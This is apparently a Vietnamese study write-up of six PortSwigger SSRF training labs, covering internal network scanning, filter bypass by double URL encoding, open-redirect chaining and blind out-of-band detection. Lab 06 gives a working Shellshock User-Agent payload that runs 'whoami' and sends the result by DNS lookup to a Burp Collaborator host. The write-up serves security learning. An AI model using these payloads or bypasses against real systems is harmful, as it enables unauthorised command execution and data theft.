


# WEB 07: Server-side request forgery (SSRF)

## What is SSRF?

SSRF là một lỗ hổng bảo mật web cho phép kẻ tấn công khiến ứng dụng phía máy chủ thực hiện các yêu cầu đến một vị trí ngoài ý muốn.

Trong một cuộc tấn công SSRF điển hình, kẻ tấn công có thể khiến máy chủ tạo kết nối với các dịch vụ chỉ dành cho nội bộ trong cơ sở hạ tầng của tổ chức

Trong các trường hợp khác, họ có thể buộc máy chủ kết nối với các hệ thống bên ngoài tùy ý. Điều này có thể làm rò rỉ dữ liệu nhạy cảm, chẳng hạn như thông tin xác thực ủy quyền.

## Impact of SSRF attacks

Một cuộc tấn công SSRF thành công thường có thể dẫn đến các hành động trái phép hoặc truy cập dữ liệu trong tổ chức. Điều này có thể nằm trong ứng dụng dễ bị tấn công hoặc trên các hệ thống phụ trợ khác mà ứng dụng có thể giao tiếp. Trong một số trường hợp, lỗ hổng SSRF có thể cho phép kẻ tấn công thực hiện lệnh tùy ý.

## Lab 01: Basic SSRF against the local server

Phòng thí nghiệm này có tính năng kiểm tra hàng tồn kho để lấy dữ liệu từ hệ thống nội bộ. Để giải quyết bài lab, hãy thay đổi URL kiểm tra kho để truy cập vào giao diện quản trị tại http://localhost/admin và xóa người dùng carlos.


## Lab 02: Basic SSRF against another back-end system

Phòng thí nghiệm này có tính năng kiểm tra hàng tồn kho để lấy dữ liệu từ hệ thống nội bộ. Để giải quyết bài thí nghiệm, hãy sử dụng chức năng kiểm tra hàng tồn kho để quét phạm vi 192.168.0.X nội bộ để tìm giao diện quản trị viên trên cổng 8080, sau đó sử dụng chức năng này để xóa người dùng carlos.
<hr>

Bắt request check stock


Đưa vào intruder để tì, giao diện mạng của admin


Cho port chạy từ 1-255

Kết quả, bắt được giao diện mạng: 192.168.0.240


Quay lại repeater để xóa user


## Lab 03: Blind SSRF with out-of-band detection

Trang web này sử dụng phần mềm phân tích để tìm nạp URL được chỉ định trong <b>Referer header</b> khi trang sản phẩm được tải.

Server sử dụng trường <b>Referer header</b> để gửi tới 1 dịch vụ bên ngoài khác để phân tích 


Bôi đen giá trị của <b>Referer</b> rồi insert đến BurpCollab 


Sang Collaborater nhấn poll


## Lab 04: SSRF with blacklist-based input filter

Phòng thí nghiệm này có tính năng kiểm tra hàng tồn kho để lấy dữ liệu từ hệ thống nội bộ. 

Để giải quyết bài lab, hãy thay đổi URL kiểm tra kho để truy cập vào giao diện quản trị tại http://localhost/admin và xóa người dùng carlos. 

Nhà phát triển đã triển khai hai biện pháp phòng thủ chống SSRF yếu mà bạn sẽ cần phải vượt qua.
<hr>


Sử dụng ip rút gọn và xáo trộn bằng cách encodeurl chữ cái <b>a</b> 2 lần: <b>a -> %2561</b>




## Lab 05: SSRF with filter bypass via open redirection vulnerability

>SSRF với tính năng bỏ qua bộ lọc thông qua lỗ hổng chuyển hướng mở

Phòng thí nghiệm này có tính năng kiểm tra hàng tồn kho để lấy dữ liệu từ hệ thống nội bộ. 

Để giải quyết bài lab, hãy thay đổi URL kiểm tra hàng tồn để truy cập vào giao diện quản trị tại http://192.168.0.12:8080/admin và xóa người dùng carlos. 

Trình kiểm tra stock đã bị hạn chế chỉ truy cập vào ứng dụng cục bộ, vì vậy trước tiên bạn cần tìm một chuyển hướng mở ảnh hưởng đến ứng dụng.

<hr>

Tham số stockApi không tương tác trực tiếp với mạng nội bộ


Giá trị của tham số path chính là giá trị của location. Tuy nhiên không trực tiếp tấn công vào đây được vì nếu follow theo request sẽ hóa thành mình truy cập vào local của mình. không phải server truy cập vào mạng internal



Kết hợp tham số stockApi và path. stockApi sẽ gọi đến chức năng NextProduct truyền vào tham số path là 1 endpoint (phải là 1 endpoint)


## Lab 06: Blind SSRF with Shellshock exploitation

>Blind SSRF với khai thác Shellshock

Shellshock là một lỗ hổng cho phép khai thác các hệ thống chứa phiên bản Bash dễ bị tấn công để thực thi các lệnh có đặc quyền cao hơn (leo thang đặc quyền). Điều này cho phép kẻ tấn công có khả năng chiếm lấy hệ thống đó. Đây là một lỗi trong shell Bash đã tồn tại 30 năm và được phát hiện là mối đe dọa đáng kể vào năm 2014. Ngày nay, Shellshock vẫn là mối đe dọa đối với doanh nghiệp.

Trang web này sử dụng phần mềm phân tích để tìm nạp URL được chỉ định trong tiêu đề Người giới thiệu khi trang sản phẩm được tải. 

Để giải quyết bài lab, hãy sử dụng chức năng này để thực hiện cuộc tấn công SSRF mù đối với máy chủ nội bộ trong phạm vi 192.168.0.X trên cổng 8080. 

Trong cuộc tấn công mù, hãy sử dụng tải trọng Shellshock vào máy chủ nội bộ để lấy tên của HĐH người dùng.

<hr>

Cài đặt <b>Collaborator Everywhere</b> để tự động detect các lỗi về <b>out-of-band</b>

Khi chọn 1 sản phẩm, có thể thấy <b>Collaborator EveryWhere</b> detect được lỗi 


Kèm theo 1 reuqest


Send request detect được vào intruder

1. Tại trường <b>User-Agent</b> thay bằng payload sau:

```
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).SUBDOMAIN_OF_COLLABORATOR
Của mình là:
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).g6nivvuq1x7nw9rrc2avdrtjjap5dv1k.oastify.com
```

- Phần <b>() { :; };</b> này là payload của lỗ hổng "Shellshock" hay "Bash Bug". Đây là một hàm không hợp lệ trong Bash, nhưng sẽ được Bash chấp nhận nếu không có ký tự kết thúc hợp lệ như }. Trong trường hợp này, nó được sử dụng để khai báo một hàm trống tên là ().

- /usr/bin/nslookup: Là một tiện ích trong Unix/Linux dùng để thực hiện truy vấn DNS.

- $(whoami).SUBDOMAIN_OF_COLLABORATOR: Là một cách để lấy tên người dùng hiện tại đang đăng nhập vào hệ thống được nối với subdomain của COLLABORATOR


2. Tại trường <b>Referer</b>: chính là ip internal của app

>http://192.168.0.§X§:8080

Set cho x chạy từ 0->255, sau đó nhấn attack


Sau khi finished, quay lại <b>collaborator</b> và nhấn <b>Poll</b>

khi nhấn Poll, Collaborator Server sẽ trả về cho Burp các request mà Collaborator Server đã tương tác với app.


Như vậy lấy được tên người dùng là : <b>peter-K3yEd4</b>

<hr>

### Tóm tắt lại

Bản thân server của app tồn tại 1 lỗi là Shellshock, hiểu nôm na là bị os injection. 

Collaborator Everywhere đã detect được bug này, và lỗi cụ thể là Blind SSRF, nó cũng đưa ra request mà nó detect được

Sử dụng request mà Collaborator Everywhere cung cấp, đưa vào intruder tiến hành bruteforce ra được ip đúng của app internal

1 khi request của ip đúng được gửi đi, shell của app sẽ thực thi payload và goi đến Collaborator Server (na ná như revshell vậy)

Sau đó nhấn Poll, Collaborator Server sẽ hiển thị quá trình mà Collaborator Server và shell app tương tác. kết quả của shell nằm ở subdomain của các truy vấn (dns, http,..)


